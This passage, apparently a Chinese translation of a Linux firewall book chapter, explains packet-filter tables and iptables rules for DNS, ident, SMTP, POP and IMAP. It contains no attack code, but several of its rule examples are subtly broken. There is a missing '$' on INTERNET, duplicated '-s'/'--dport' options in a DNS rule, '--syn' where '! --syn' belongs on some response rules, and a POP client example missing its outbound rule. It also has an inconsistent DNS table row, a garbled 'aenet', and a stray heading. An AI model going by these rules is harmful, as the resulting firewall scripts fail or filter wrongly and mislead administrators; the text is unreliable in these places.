本章的其余部分致力于定义允许访问特定服务的规则。对于基于 TCP 和 UDP 的服务，客户端/服务器通信都涉及使用特定于该服务的协议进行某种双向通信。因此，访问规则始终表示为 I/O 对。客户端程序发出查询，服务器发送响应。给定服务的规则被归类为客户端规则或服务器规则。客户端类别表示本地客户端访问远程服务器所需的通信。服务器类别表示远程客户端访问由您的机器托管的服务所需的通信。

应用消息封装在 TCP 或 UDP 传输协议消息中。由于每种服务使用其特有的应用协议，TCP 或 UDP 交换的特定特征在某种程度上对于给定服务是独特的。


客户端和服务器之间的交换由防火墙规则明确描述。防火墙规则的目的之一是在数据包级别确保协议完整性。以 `iptables` 语法表示的防火墙规则并不是特别易读的。在以下每个部分中，在数据包过滤级别的服务协议作为一个状态信息表格呈现，随后是表达这些状态的 `iptables` 规则。

表格中的每一行列出参与服务交换的数据包类型。为每个单独的数据包类型定义一条防火墙规则。表格分为以下几列：

- **描述** 包含关于数据包是从客户端还是服务器发起，以及数据包目的的简要描述。
- **协议** 是正在使用的传输协议，即 TCP 或 UDP，或者是 IP 协议的控制消息 ICMP。
- **远程地址** 是数据包在远程地址字段中可以包含的合法地址或地址范围。
- **远程端口** 是数据包在远程端口字段中可以包含的合法端口或端口范围。
- **入/出** 描述数据包的方向，即它是从远程位置进入系统还是从系统发送出去到远程位置。
- **本地地址** 是数据包在本地地址字段中可以包含的合法地址或地址范围。
- **本地端口** 是数据包在本地端口字段中可以包含的合法端口或端口范围。
- **TCP 协议** 数据包包含最后一列 **TCP 标志**，定义数据包可能具有的合法 SYN-ACK 状态。

表格将数据包描述为入站或出站，相对于您机器的网络接口。请注意，对于入站数据包，远程地址和端口指 IP 数据包头中的源字段；本地地址和端口指 IP 数据包头中的目的字段。对于出站数据包，远程地址和端口指 IP 数据包头中的目的字段；本地地址和端口指 IP 数据包头中的源字段。

最后，在少数服务规则涉及 ICMP 消息的情况下，请注意 IP 网络层的 ICMP 数据包不与源或目的端口的概念相关联，这与传输层 TCP 或 UDP 数据包的情况不同。相反，ICMP 数据包使用从一个计算机发送到另一个计算机的控制消息的概念。（ICMP 数据包包含导致错误消息的原始数据包的副本至少一部分。接收主机通过检查 ICMP 数据包数据区域中包含的数据包来识别错误所指的进程。）因此，表格中列出的少数 ICMP 条目使用源端口列来包含消息类型。对于入站 ICMP 数据包，源端口列是远程端口列。对于出站 ICMP 数据包，源端口列是本地端口列。

# 7.4 启用基本必需的互联网服务

只有一个服务是真正必需的：域名服务（DNS）。DNS 在主机名及其关联的 IP 地址之间进行转换。除非主机是本地定义的，否则通常没有 DNS 就无法定位远程主机。

## 7.4.1 允许 DNS（UDP/TCP 端口 53）

DNS 使用一种依赖 UDP 和 TCP 两者的通信协议。连接模式包括常规客户端到服务器的连接、转发服务器与权威服务器之间的点对点流量，以及主名称服务器和辅助名称服务器之间的连接。

查询查找请求通常通过 UDP 进行，无论是客户端到服务器的查找，还是服务器之间的点对点查找。如果返回的信息太大而无法放入单个 UDP DNS 数据包中，UDP 通信可能会在查找过程中失败。服务器会在 DNS 消息报头中设置一个标志位，以指示数据已被截断。在这种情况下，协议允许通过 TCP 进行重试。图 7.4 展示了在 DNS 查找过程中 UDP 和 TCP 之间的关系。在实践中，查询通常不需要使用 TCP。TCP 传统上用于主名称服务器和辅助名称服务器之间管理区域的传输。



图 7.4 DNS 客户端到服务器的查找。

区域传输是指名称服务器关于网络或其负责的片段（即区域）的完整信息的传输（即权威服务器）。辅助（或备份）名称服务器可以定期向其主服务器请求区域传输，以保持其 DNS 缓存的最新状态。

例如，您的 ISP 的某个名称服务器是其地址空间的主权威服务器。ISP 通常拥有多个 DNS 服务器以平衡负载，并作为备份冗余。其他名称服务器是辅助名称服务器，它们从主服务器上的主副本刷新信息。

区域传输需要在主服务器和辅助服务器之间进行严格的访问控制。小型系统不太可能成为公共域名称空间的权威名称服务器，也不太可能成为该信息的公共备份服务器。大型站点可以轻松托管主服务器和辅助服务器。必须注意的是，区域传输只应允许在这些主机之间进行。由于攻击者能够获取整个 DNS 区域的副本并了解网络拓扑，从而将攻击指向最有价值的资产，许多攻击已成功实施。

表 7.1 列出了防火墙所考虑的 DNS 协议。

### 表 7.1 DNS 协议

| 描述 | 协议 | 远程地址 | 远程端口 | 进/出 | 本地地址 | 本地端口 | TCP 标志 |
|---|---|---|---|---|---|---|---|
| 本地客户端查询 | UDP | NAMESERVER | 53 | 出 | IPADDR | 1024:65535 | — |
| 远程服务器响应 | UDP | NAMESERVER | 53 | 进 | IPADDR | 1024:65535 | — |
| 本地客户端查询 | TCP | NAMESERVER | 53 | 出 | IPADDR | 1024:65535 | Any |
| 远程服务器响应 | TCP | NAMESERVER | 53 | 进 | IPADDR | 1024:65535 | ACK |
| 本地服务器查询 | UDP | NAMESERVER | 53 | 出 | IPADDR | 53 | — |
| 远程服务器响应 | UDP | NAMESERVER | 53 | 进 | IPADDR | 53 | — |
| 本地区域传输 | TCP | Primary | 53 | 出 | IPADDR | 1024:65535 | Any |
| 远程区域传输 | TCP | Primary | 53 | 进 | IPADDR | 1024:65535 | ACK |
| 远程客户端查询 | UDP | DNS client | 1024:65535 | 进 | IPADDR | 53 | — |
| 本地服务器响应 | UDP | DNS client | 1024:65535 | 出 | IPADDR | 53 | — |
| 远程客户端查询 | TCP | DNS client | 1024:65535 | 进 | IPADDR | 53 | Any |
| 本地服务器响应 | UDP | DNS client | 53 | 出 | IPADDR | 53 | — |
| 远程区域传输请求 | TCP | Secondary | 1024:65535 | 进 | IPADDR | 53 | Any |
| 本地区域传输响应 | TCP | Secondary | 1024:65535 | 出 | IPADDR | 53 | ACK |

### 允许作为客户端进行 DNS 查找

DNS 解析器并不是一个特定的程序。客户端被集成到网络程序使用的网络库代码中。当主机名需要查找时，解析器会从 DNS 服务器请求查找。大多数计算机仅被配置为 DNS 客户端。服务器运行在远程机器上。对于家庭用户，名称服务器通常是您 ISP 拥有的机器。

作为客户端，假设您的机器没有运行本地 DNS 服务器；如果确实运行了，您应确保实际需要运行名称服务器。没有必要运行额外服务！每个客户端查找都通过解析器并发送到配置在 `/etc/resolv.conf` 中的某个远程名称服务器。一般来说，即使使用本地服务器，安装客户端规则也是更好的做法。这样可以避免一些可能在某些时候出现的令人困惑的问题。

这些规则必须在任何其他规则能够成功通过名称（而不是 IP 地址）指定远程主机之前安装在防火墙表中，除非该远程主机在 `/etc/hosts` 文件中有条目。

DNS 以 UDP 数据报的形式发送查找请求：

```bash
NAMESERVER="my.name.server" # (TCP/UDP) DNS
if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A OUTPUT -o $INTERNET -p udp \
    -s $IPADDR --sport $UNPRIVPORTS \
    -d $NAMESERVER --dport 53 \
    -m state --state NEW -j ACCEPT
fi

$IPT -A OUTPUT -o $INTERNET -p udp \
  -s $IPADDR --sport $UNPRIVPORTS \
  -d $NAMESERVER --dport 53 -j ACCEPT

$IPT -A INPUT -i $INTERNET -p udp \
  -s $NAMESERVER --sport 53 \
  -d $IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

如果因为返回的数据太大而无法放入 UDP 数据报中而发生错误，DNS 客户端将使用 TCP 连接进行重试。


接下来的两条规则适用于查找响应无法装入 DNS UDP 数据报的罕见情况。它们不会在正常的日常操作中使用。您可以没有这些 TCP 规则而毫无问题地运行系统数月。不幸的是，如果没有这些规则，您的 DNS 查找偶尔会挂起。更典型的是，这些规则由辅助名称服务器向主名称服务器请求区域传输时使用：

```bash
if [ $CONNECTION_TRACKING = "1" ]; then
$IPT -A OUTPUT -o INTERNET -p tcp \
-s $IPADDR --sport $UNPRIVPORTS \
-d $NAMESERVER --dport 53 \
-m state --state NEW -j ACCEPT
fi

$IPT -A OUTPUT -o INTERNET -p tcp \
-s $IPADDR --sport $UNPRIVPORTS \
-d $NAMESERVER --dport 53 -j ACCEPT

$IPT -A INPUT -i INTERNET -p tcp ! --syn \
-s $NAMESERVER --dport 53 \
-s $IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

### 允许作为转发服务器进行 DNS 查找

配置本地转发名称服务器可以带来巨大的性能提升。如图 7.5 所示，当 BIND 被配置为缓存和转发名称服务器时，它既作为本地服务器，也作为远程 DNS 服务器的客户端。直接客户端到服务器交换与转发的服务器到服务器交换之间的区别在于所使用的源端口和目标端口。BIND 不再从非特权端口发起交换，而是从其自身的 DNS 端口 53 发起交换。（查询源端口现在是可配置的。在新版本的 BIND 中，本地服务器默认从非特权端口发出请求。）

历史上，DNS 服务器在与其它服务器通信时使用 UDP 端口 53 作为其源端口。这将客户端流量与由服务器发起的流量区分开来，因为客户端始终使用高的非特权端口作为其源。后来版本的 BIND 允许服务器到服务器的源端口可配置，并默认使用非特权端口。本书中的所有示例都假设 BIND 被配置为使用 UDP 端口 53，而不是非特权端口，用于服务器到服务器的查询。



图 7.5 DNS 转发服务器查找。

第二个区别是，这种类型的转发服务器查找始终通过 UDP 进行。（如果响应太大而无法装入 UDP DNS 数据包，本地服务器必须退回到标准的客户端/服务器行为以发起 TCP 请求。）

本地客户端请求被发送到本地 DNS 服务器。第一次时，BIND 将没有查找信息，因此它将请求转发到远程服务器。返回的信息传递给客户端。下一次请求相同信息时，BIND 会在其本地缓存中找到它（根据记录的生命周期 [TTL]），而不再进行远程请求：

```bash
$IPT -A OUTPUT -o $INTERNET -p udp \
  -s $IPADDR --sport 53 \
  -d $NAMESERVER --dport 53 -j ACCEPT
```

```bash
$IPT -A INPUT -i $INTERNET -p udp \
-s $NAMESERVER --sport 53 \
-d $IPADDR --dport 53 -j ACCEPT
```

如果因 UDP 数据包大小导致查找失败，服务器将回退到 TCP 模式循环。如果因远程服务器没有相关信息导致查找失败，本地服务器将查询根缓存服务器。由于这些服务器的存在，客户端需要允许向任何服务器发送 DNS 流量，而不仅仅是本地配置中列出的特定服务器。

替代的 BIND 配置是将其不仅配置为转发服务器，还配置为 BIND 配置文件 `named.conf` 中指定的远程服务器的从属服务器。作为从属服务器时，不需要一般的客户端 UDP 规则。

## 7.4.2 过滤 AUTH 用户身份识别服务（TCP 端口 113）

AUTH，即 ident，用户身份识别服务有时用于发送邮件或发布 aenet 文章。一些 FTP 站点也配置为要求可解析的 AUTH 查找。出于日志记录目的，服务器会向您的机器发起 AUTH 请求，以获取发起邮件或新闻连接的用户的账户名称。表 7.2 列出了 AUTH 服务的完整客户端/服务器连接协议。尽管要求此服务的情况正在减少，因此我不建议在你的服务器上运行它。

### 表 7.2 ident 协议

| 描述 | 协议 | 远程地址 | 远程端口 | 入/出 | 本地地址 | 本地端口 | TCP 标志 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 本地客户端查询 | TCP | ANYWHERE | 113 | Out | IPADDR | 1024:65535 | Any |
| 远程服务器响应 | TCP | ANYWHERE | 113 | In | IPADDR | 1024:65535 | ACK |
| 远程客户端查询 | TCP | ANYWHERE | 1024:65535 | In | IPADDR | 113 | Any |
| 本地服务器响应 | TCP | ANYWHERE | 1024:65535 | Out | IPADDR | 113 | ACK |

### 作为客户端允许你的出站 AUTH 请求

如果你运行邮件或 FTP 服务器，你的机器将作为 AUTH 客户端运行。以下是规则，允许你的服务器作为 AUTH 客户端运行（如果你选择这样做）：

```bash
if [ "$CONNECTION_TRACKING" = "1" ]; then $IPT -A OUTPUT -o $INTERNET -p tcp \
-s $IPADDR --sport $UNPRIVPORTS \
--dport 113 -m state --state NEW -j ACCEPT
fi
$IPT -A OUTPUT -o $INTERNET -p tcp \
-s $IPADDR --sport $UNPRIVPORTS \
--dport 113 -j ACCEPT
```

```bash
$IPT -A INPUT -i $INTERNET -p tcp ! --syn \
--sport 113 \
-d $IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

### 过滤传入你服务器的请求

无论你决定是否提供该服务，当你发送邮件时，你很可能会收到针对该服务的传入请求。

如果你运行 identd 服务器，以下规则启用传入的 identd 连接请求：

```bash
if [ "$CONNECTION_TRACKING" = "1" ]; then
$IPT -A INPUT -i $INTERNET -p tcp \
--sport $UNPRIVPORTS \
-d $IPADDR --dport 113 \
-m state --state NEW -j ACCEPT
fi
$IPT -A INPUT -i $INTERNET -p tcp \
--sport $UNPRIVPORTS \
-d $IPADDR --dport 113 -j ACCEPT
```

```bash
$IPT -A OUTPUT -o $INTERNET -p tcp ! --syn \
-s $IPADDR --sport 113 \
--dport $UNPRIVPORTS -j ACCEPT
```

如果你决定不提供该服务，拒绝连接请求是一个好习惯，以避免等待 TCP 连接超时。这种情况仅发生在传入数据包被拒绝而不是被丢弃时，在这些示例中：

```bash
$IPT -A INPUT -i $INTERNET -p tcp \
--sport $UNPRIVPORTS \
-d $IPADDR --dport 113 -j REJECT --reject-with tcp-reset
```

或者，你可以使用接受规则，但不运行 identd 服务器。结果将是相同的：TCP 层将向发送方返回一个 TCP RST 消息。

## 7.5 启用常见 TCP 服务

很可能没有人希望启用本节列出的所有服务，但大多数人希望启用其中的一部分。这些是当今互联网上最常用的服务。因此，本节更多是一个参考章节。本节提供了以下规则：

- 电子邮件
- Usenet
- Telnet
- SSH
- FTP
- Web 服务
- Whois
- RealAudio、RealVideo 和 QuickTime

### 7.5.1 电子邮件（TCP SMTP 端口 25，POP 端口 110，IMAP 端口 143）

还有许多其他服务未在此处涵盖。其中一些用于专用服务器，一些由大型企业或组织使用，还有一些设计用于本地私有网络。


电子邮件几乎是每个人都需要的服务。邮件的设置取决于你的 ISP、你的连接类型以及你自己的选择。电子邮件通过分配给 TCP 服务端口 25 的 SMTP 协议在网络上发送。电子邮件通常通过三种不同协议之一在本地接收——SMTP、POP 或 IMAP——这取决于你的 ISP 提供的服务以及你的本地配置。

SMTP 是通用邮件协议。邮件被投递到目标主机，通常由给定域名的 DNS 中的 MX 记录定义。端点邮件服务器确定邮件是否可投递（地址是机器上有效的用户账户），并将其投递到用户的本地邮箱。

POP 和 IMAP 是邮件检索服务。POP 运行在 TCP 端口 110 上。IMAP 运行在 TCP 端口 143 上。ISP 通常使用其中一项或两项服务使其客户能够接收传入邮件。这两项服务通常通过用户名和密码进行身份验证。就邮件检索而言，SMTP 与 POP 或 IMAP 之间的区别在于，SMTP 接收传入邮件并将其排队在用户的本地邮箱中。POP 和 IMAP 从用户的 ISP 检索邮件到用户的本地邮件程序，而邮件之前已在用户 ISP 的 SMTP 邮箱中远程排队。表 7.3 列出了 SMTP、POP 和 IMAP 的客户端/服务器连接协议。SMTP 还使用你的本地网络可能使用的专用投递机制，例如 ETRN，它有效地将给定域名的所有邮件转移到本地处理。

### 表 7.3 SMTP、POP 和 IMAP 邮件协议

| 描述 | 协议 | 远程地址 | 远程端口 | 入/出 | 本地地址 | 本地端口 | TCP 标志 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 发送出站邮件 | TCP | ANYWHERE | 25 | Out | IPADDR | 1024:65535 | Any |
| 远程服务器响应 | TCP | ANYWHERE | 25 | In | IPADDR | 1024:65535 | ACK |
| 接收传入邮件 | TCP | ANYWHERE | 1024:65535 | In | IPADDR | 25 | Any |
| 本地服务器响应 | TCP | ANYWHERE | 1024:65535 | Out | IPADDR | 25 | ACK |
| 本地客户端查询 | TCP | POP SERVER | 110 | Out | IPADDR | 1024:65535 | Any |
| 远程服务器响应 | TCP | POP SERVER | 110 | In | IPADDR | 1024:65535 | ACK |
| 远程客户端查询 | TCP | POP CLIENT | 1024:65535 | In | IPADDR | 110 | Any |
| 本地服务器响应 | TCP | POP CLIENT | 1024:65535 | Out | IPADDR | 110 | ACK |
| 本地客户端查询 | TCP | IMAP SERVER | 143 | Out | IPADDR | 1024:65535 | Any |
| 远程服务器响应 | TCP | IMAP SERVER | 143 | In | IPADDR | 1024:65535 | ACK |
| 远程客户端查询 | TCP | IMAP CLIENT | 1024:65535 | In | IPADDR | 143 | Any |
| 本地服务器响应 | TCP | IMAP CLIENT | 1024:65535 | Out | IPADDR | 143 | ACK |

## 通过 SMTP（TCP 端口 25）发送邮件

邮件通过 SMTP 发送。但是你使用谁的 SMTP 服务器来收集你的邮件并将其进一步发送？ISP 向其客户提供 SMTP 邮件服务。ISP 的邮件服务器充当邮件网关。它知道如何收集你的邮件、找到收件人主机以及中继邮件网关。在 UNIX 下，如果你愿意，你可以托管自己的本地邮件服务器。你的服务器将负责将邮件路由到其目的地。

### 通过外部（ISP）网关 SMTP 服务器中继出站邮件

当你通过外部邮件网关服务器中继出站邮件时，你的客户端邮件程序会将所有出站邮件发送到你的 ISP 的邮件服务器。你的 ISP 充当你与世界上其他人的邮件网关。你的系统不需要知道如何定位你的邮件目的地或通向它们的路径。ISP 邮件网关作为你的中继服务。

以下两条规则允许你通过 ISP 的 SMTP 网关转发邮件：

`SMTP_GATEWAY="my.isp.server"` # 外部邮件服务器或中继服务器

```
if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A OUTPUT -o $INTERNET -p tcp \
    -s $IPADDR --sport $UNPRIVPORTS \
    -d $SMTP_GATEWAY --dport 25 -m state --state NEW -j ACCEPT
fi

$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  -d $SMTP_GATEWAY --dport 25 -j ACCEPT

$IPT -A INPUT -i $INTERNET -p tcp --syn \
  -s $SMTP_GATEWAY --dport 25 \
  -d $IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

## 向任何外部邮件服务器发送邮件

或者，你可以绕过 ISP 的邮件服务器，并托管自己的邮件服务器。你的本地服务器负责收集你发出的邮件，对目标主机名执行 DNS 查找，并将邮件发送到目的地。你的客户端邮件程序指向你的本地 SMTP 服务器，而不是 ISP 的服务器。

以下两条规则允许你直接向远程目的地发送邮件：

```
if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A OUTPUT -o $INTERNET -p tcp \
    -s $IPADDR --sport $UNPRIVPORTS \
    --dport 25 -m state --state NEW -j ACCEPT
fi

$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  --dport 25 -j ACCEPT

$IPT -A INPUT -i $INTERNET -p tcp --syn \
  --dport 25 \
  -d $IPADDR --dport $UNPRIVPORTS -j ACCEPT
```

## 接收邮件

你接收邮件的方式取决于你的具体情况。如果你运行自己的本地邮件服务器，你可以直接在 Linux 机器上接收传入的邮件。如果你从 ISP 帐户获取邮件，你可能使用 POP 或 IMAP 客户端获取邮件，这取决于你如何配置 ISP 电子邮件帐户，以及 ISP 提供的邮件投递服务。

### 作为本地 SMTP 服务器接收邮件（TCP 端口 25）

如果你想接收从世界任何地方直接发送到本地机器的邮件，你需要运行 `sendmail`、`exim` 或其他邮件服务器程序。这些是本地服务器规则：

```
if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A INPUT -i $INTERNET -p tcp \
    --sport $UNPRIVPORTS \
    -d $IPADDR --dport 25 \
    -m state --state NEW -j ACCEPT
fi

$IPT -A INPUT -i $INTERNET -p tcp \
  --sport $UNPRIVPORTS \
  -d $IPADDR --dport 25 -j ACCEPT

$IPT -A OUTPUT -o $INTERNET -p tcp ! --syn \
  -s $IPADDR --dport 25 \
  --sport $UNPRIVPORTS -j ACCEPT
```

### 作为 POP 客户端检索邮件（TCP 端口 110）

连接到 POP 服务器是从远程 ISP 或工作帐户检索邮件的常见方式。如果你的 ISP 使用 POP 服务器进行客户检索，你需要允许客户端到服务器的连接。

服务器的地址将是特定的主机名或地址，而不是全局隐含的 ANYWHERE 指定符。POP 帐户是与特定用户和密码关联的用户帐户：


```
POP_SERVER="my.isp.pop.server" # 外部服务器（如果有）

if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A OUTPUT -o $INTERNET -p tcp \
    -s $IPADDR --sport $UNPRIVPORTS \
    -d $POP_SERVER --dport 110 -m state --state NEW -j ACCEPT
fi

$IPT -A INPUT -i $INTERNET -p tcp ! --syn \
  -s $POP_SERVER --dport 110 \
  -d $IPADDR --sport $UNPRIVPORTS -j ACCEPT
```

## 作为 IMAP 客户端接收邮件（TCP 端口 143）

连接到 IMAP 服务器是从远程 ISP 检索邮件的另一种常见方式。当你的 ISP 使用 IMAP 服务器进行客户邮件检索时，你需要允许出站客户端到服务器的连接。

服务器的地址将是特定的主机名或地址，而不是全局隐含的 ANYWHERE 指定符。IMAP 帐户是与特定用户和密码关联的用户帐户：

```
IMAP_SERVER="my.isp.imap.server" # 外部 imap 服务器（如果有）

if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A OUTPUT -o $INTERNET -p tcp \
    -s $IPADDR --sport $UNPRIVPORTS \
    -d $IMAP_SERVER --dport 143 -m state --state NEW -j ACCEPT
fi

$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  -d $IMAP_SERVER --dport 143 -j ACCEPT

$IPT -A INPUT -i $INTERNET -p tcp ! --syn \
  -s $IMAP_SERVER --dport 143 \
  -d $IPADDR --sport $UNPRIVPORTS -j ACCEPT
```

## 实际客户端和服务器电子邮件组合示例

本节描述了四种客户端和服务器电子邮件组合方法：

- 作为 SMTP 客户端发送邮件，作为 POP 客户端接收邮件
- 作为 SMTP 客户端发送邮件，作为 IMAP 客户端接收邮件
- 作为 SMTP 客户端发送邮件，作为 SMTP 服务器接收邮件
- 作为 SMTP 服务器发送邮件，作为 SMTP 服务器接收邮件

前两种方法在你完全依赖 ISP 的 SMTP 和 POP 或 IMAP 电子邮件服务时很有用。第三种示例是混合方法，通过 ISP 的 SMTP 邮件服务器中继出站邮件，但直接通过本地 SMTP 服务器接收邮件。第四种方法支持运行自己的完整、独立的邮件服务器，用于发送和接收邮件。

### 作为 SMTP 客户端发送邮件，作为 POP 客户端接收邮件

如果你作为 SMTP 客户端发送邮件并作为 POP 客户端接收邮件，你完全依赖远程站点提供你的邮件服务。远程站点托管一个用于中继出站邮件的 SMTP 服务器和一个用于本地邮件检索的 POP 服务器：

```
SMTP_GATEWAY="my.isp.server"    # 外部邮件服务器或中继服务器

if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A OUTPUT -o $INTERNET -p tcp \
    -s $IPADDR --sport $UNPRIVPORTS \
    -d $SMTP_GATEWAY --dport 25 -m state --state NEW -j ACCEPT
fi

$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  -d $SMTP_GATEWAY --dport 25 -j ACCEPT

$IPT -A INPUT -i $INTERNET -p tcp ! --syn \
  -s $SMTP_GATEWAY --dport 25 \
  -d $IPADDR --sport $UNPRIVPORTS -j ACCEPT

POP_SERVER="my.isp.pop.server"    # 外部 pop 服务器（如果有）

if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A OUTPUT -o $INTERNET -p tcp \
    -s $IPADDR --sport $UNPRIVPORTS \
    -d $POP_SERVER --dport 110 -m state --state NEW -j ACCEPT
fi

$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  -d $POP_SERVER --dport 110 -j ACCEPT

$IPT -A INPUT -i $INTERNET -p tcp ! --syn \
  -s $POP_SERVER --dport 110 \
  -d $IPADDR --sport $UNPRIVPORTS -j ACCEPT
```

### 作为 SMTP 客户端发送邮件，作为 IMAP 客户端接收邮件

如果你作为 SMTP 客户端发送邮件并作为 IMAP 客户端接收邮件，你完全依赖远程站点提供你的邮件服务。远程站点托管一个用于中继出站邮件的 SMTP 服务器和一个用于本地检索的 IMAP 服务器：

```
SMTP_GATEWAY="my.isp.server"    # 外部邮件服务器或中继服务器

if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A OUTPUT -o $INTERNET -p tcp \
    -s $IPADDR --sport $UNPRIVPORTS \
    -d $SMTP_GATEWAY --dport 25 -m state --state NEW -j ACCEPT
fi

$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  -d $SMTP_GATEWAY --dport 25 -j ACCEPT

$IPT -A INPUT -i $INTERNET -p tcp ! --syn \
  -s $SMTP_GATEWAY --dport 25 \
  -d $IPADDR --sport $UNPRIVPORTS -j ACCEPT

IMAP_SERVER="my.isp.imap.server"    # 外部 imap（如果有）

if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A OUTPUT -o $INTERNET -p tcp \
    -s $IPADDR --sport $UNPRIVPORTS \
    -d $IMAP_SERVER --dport 143 -m state --state NEW -j ACCEPT
fi

$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  -d $IMAP_SERVER --dport 143 -j ACCEPT

$IPT -A INPUT -i $INTERNET -p tcp ! --syn \
  -s $IMAP_SERVER --dport 143 \
  -d $IPADDR --sport $UNPRIVPORTS -j ACCEPT
```

### 作为 SMTP 客户端发送邮件，作为 SMTP 服务器接收邮件

如果你作为 SMTP 客户端发送邮件并作为 SMTP 服务器接收邮件，你依赖远程站点提供 SMTP 服务来将你的出站邮件中继到远程目的地。你运行 sendmail 作为本地 SMTP 服务器，允许远程主机将邮件发送到你的邮箱。出站邮件通过你的 ISP 中继，sendmail 守护程序知道如何将传入邮件投递到本地用户帐户：


```
SMTP_GATEWAY="my.isp.server" # 外部邮件服务器或中继服务器

if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A OUTPUT -o $INTERNET -p tcp \
    -s $IPADDR --sport $UNPRIVPORTS \
    -d $SMTP_GATEWAY --dport 25 -m state --state NEW -j ACCEPT
fi

$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  -d $SMTP_GATEWAY --dport 25 -j ACCEPT

$IPT -A INPUT -i $INTERNET -p tcp --syn \
  -s $SMTP_GATEWAY --dport 25 \
  -d $IPADDR --dport 25 -j ACCEPT

if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A INPUT -i $INTERNET -p tcp \
    --sport $UNPRIVPORTS \
    -d $IPADDR --dport 25 \
    -m state --state NEW -j ACCEPT
fi

$IPT -A INPUT -i $INTERNET -p tcp \
  --sport $UNPRIVPORTS \
  -d $IPADDR --dport 25 -j ACCEPT
```

# 启用通用 TCP 服务

```bash
$IPT -A INPUT -i $INTERNET -p tcp \
  --sport $UNPRIVPORTS \
  -d $IPADDR --dport 25 -j ACCEPT
```

```bash
$IPT -A OUTPUT -o $INTERNET -p tcp ! --syn \
  -s $IPADDR --sport 25 \
  --dport $UNPRIVPORTS -j ACCEPT
```

# 作为 SMTP 服务器发送邮件和作为 SMTP 服务器接收邮件

如果你既作为 SMTP 服务器发送邮件，又作为 SMTP 服务器接收邮件，那么你就提供了所有的邮件服务。你本地的 sendmail 守护进程被配置为将出站邮件中继到目标主机，同时也负责收集并投递邮件：

```bash
if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A OUTPUT -o $INTERNET -p tcp \
    -s $IPADDR --sport $UNPRIVPORTS \
    --dport 25 -m state --state NEW -j ACCEPT
fi

$IPT -A OUTPUT -o $INTERNET -p tcp \
  -s $IPADDR --sport $UNPRIVPORTS \
  --dport 25 -j ACCEPT

$IPT -A INPUT -i $INTERNET -p tcp ! --syn \
  --sport 25 \
  -d $IPADDR --dport $UNPRIVPORTS -j ACCEPT

if [ "$CONNECTION_TRACKING" = "1" ]; then
  $IPT -A INPUT -i $INTERNET -p tcp \
    --sport $UNPRIVPORTS \
    -d $IPADDR --dport 25 \
    -m state --state NEW -j ACCEPT
fi

$IPT -A INPUT -i $INTERNET -p tcp \
  --sport $UNPRIVPORTS \
  -d $IPADDR --dport 25 -j ACCEPT

$IPT -A OUTPUT -o $INTERNET -p tcp ! --syn \
  -s $IPADDR --sport 25 \
  --dport $UNPRIVPORTS -j ACCEPT
```

# 为远程客户端托管邮件服务器

对于小型系统而言，托管公共 POP 或 IMAP 服务是不寻常的。如果你为少数朋友提供远程邮件服务，或者他们的 ISP 邮件服务暂时不可用，你可能会这样做。无论如何，重要的是限制系统接受连接的对象，无论是在数据包过滤级别还是在服务器配置级别。

## 为远程客户端托管 POP 服务器

